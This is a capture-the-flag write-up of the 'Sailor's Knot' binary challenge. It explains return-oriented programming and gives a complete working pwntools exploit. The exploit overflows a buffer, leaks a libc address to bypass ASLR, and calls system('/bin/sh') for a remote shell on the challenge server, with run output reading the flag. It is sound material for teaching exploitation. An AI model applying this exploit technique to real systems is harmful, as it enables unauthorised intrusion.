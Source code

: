 # Sailor's Knot
There is a huge variety of sailor's knots, but the common thing is they all use rops
or other types of cords.

```
nc 46.101.107.117 2112
```

Get a shell and read the flag.

[sailorsknot](sailorsknot)

---

This is the next level of [LOTL](../../level5/lotl/README.md) from the level 5.

The file type is also the same:
```
$ file sailorsknot
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=97703c7c27443a213e91b074911c7c744fc34043, not stripped
```

However, this time there is no `profit()` function...

As the challenge description reveals, this
is about [ROP - Return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming).
I had to do some study:
- [Introducing Weird Machines: ROP Differently Explaining part 1 - bin 0x29](https://www.youtube.com/watch?v=8Dcj19KGKWM&t=1s&ab_channel=LiveOverflow) (video)
- [Weird Return-Oriented Programming Tutorial - bin 0x2A](https://www.youtube.com/watch?v=zaQVNM3or7k&t=1s&ab_channel=LiveOverflow) (video)
- [Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video)
- [Return-Oriented-Programming (ROP FTW)](https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf) (PDF)
- [LEAK LIBC ADDRESSES FROM GOT TO EXPLOIT UNKNOWN LIBC, BYPASSING ASLR REMOTELY 64 BIT](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html) (blog)
- [ROP-PWN template](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-pwn-template) (code snippet)

The binary contains one extra function `remove_me_before_deploy()`:
```
004007bb 55              PUSH       RBP
004007bc 48 89 e5        MOV        RBP,RSP
004007bf 5f              POP        RDI
004007c0 c3              RET
004007c1 48 31 c0        XOR        RAX,RAX
004007c4 c3              RET
004007c5 48 8d 3d        LEA        RDI,[s_/bin/ls_00400958]                         = "/bin/ls"
         8c 01 00 00
004007cc e8 3f fe        CALL       system                                           int system(char * __command)
         ff ff
004007d1 90              NOP
004007d2 5d              POP        RBP
004007d3 c3              RET
```

Those are some helpful ROP gadgets!

Nevertheless, I was unable to put them to use. I totally missed this:
```
$ strings -t x sailorsknot | grep /bin/sh
1080 Please ensure you remove _all_ references to the /bin/sh
```

I learned about this only after I had solved the challenge with a bit more complicated approach.

I pretty much followed
[Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video).

I had issues with [stack alignment](https://wiki.osdev.org/Calling_Conventions#Note3) to 16 bytes,
but once I got around it, all worked just nice:

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("sailorsknot")
rop = ROP(elf)

# First ROP payload to get libc address (bypassing ASLR)
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("printf", [elf.got["printf"]])
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("main")
print(rop.dump())

# p = elf.process()  # Local testing
p = remote("46.101.107.117", 2112)

p.recvuntil("\n")  # Welcome! Please give me your name!
p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")  # Hi XYZ, nice to meet you!

printf_address = u64(p.recvuntil("\n")[:6].ljust(8, b"\x00"))  # printf address (6 bytes) + Welcome! Please give ..
print("remote printf address: " + hex(printf_address))  # Address changes with each run (ASLR)

# 'printf' address always ends with e80 (ASLR doesn't change last 3 values because of paging)
# we can do the same exercise for 'gets', the address always ends with 0b0
# using https://libc.blukat.me/ we can determine the exact libc version which is libc6_2.27-3ubuntu1_amd64

# libc = ELF("libc6_2.31-3_amd64.so")  # Local testing
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")

# Set libc base address (current printf address - libc printf offset, 0x064e80 in this version)
libc.address = printf_address - libc.symbols["printf"]
print("libc base address: " + hex(libc.address))

# Second payload to get a remote shell
rop = ROP(libc)
rop.raw(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
print(rop.dump())

p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")
p.interactive()
```

It outputs:
```
[*] '/..REDACTED../sailorsknot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'sailorsknot'
0x0000:         0x400295 ret
0x0008:         0x4007bf pop rdi; ret
0x0010:         0x601028 [arg0] rdi = got.printf
0x0018:         0x400620 printf
0x0020:         0x400295 ret
0x0028:         0x400757 main()
[x] Opening connection to 46.101.107.117 on port 2112
[x] Opening connection to 46.101.107.117 on port 2112: Trying 46.101.107.117
[+] Opening connection to 46.101.107.117 on port 2112: Done
remote printf address: 0x7f1f6e4e7e80
[*] '/..REDACTED../libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc base address: 0x7f1f6e483000
[*] Loaded 198 cached gadgets for 'libc6_2.27-3ubuntu1_amd64.so'
0x0000:   0x7f1f6e4838aa ret
0x0008:   0x7f1f6e4a455f pop rdi; ret
0x0010:   0x7f1f6e636e9a [arg0] rdi = 139772972723866
0x0018:   0x7f1f6e4d2440 system
[*] Switching to interactive mode
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
challenge2
flag
ynetd
cat flag
he2021{s41l0r_r0p_f0r_pr0f1t}
```

The flag is `he2021{s41l0r_r0p_f0r_pr0f1t}`

I learned a lot here! Thank you for this challenge!